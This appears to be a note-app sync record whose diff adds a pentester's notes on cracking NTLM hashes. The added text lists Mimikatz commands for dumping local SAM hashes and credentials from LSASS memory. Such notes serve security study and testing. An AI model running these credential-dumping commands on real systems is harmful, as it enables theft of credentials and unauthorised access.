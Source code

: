 id: b91b954699f2456f93b8e669cb1c0953
parent_id: be01da7d76c8472da2dfb8d7a657e7b6
item_type: 1
item_id: 7a17f0881b6947d484027650987381ef
item_updated_time: 1657640596643
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"cracked NTLM password hashes\"],[1,\"\\\n\\\n## Obtain local user NTLM Hashes\\\n\\\n> privilege::debug\\\n> \\\n> token::elevate\\\n> \\\n> lsadump::sam\\\n\\\n## Obtain hashes from LSASS memory\\\n\\\nAfter getting the necessary privileges (\\\n\\\n> sekurlsa::logonpasswords\"]],\"start1\":214,\"start2\":214,\"length1\":28,\"length2\":226}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-07-12T15:43:19.367Z
created_time: 2022-07-12T15:43:19.367Z
type_: 13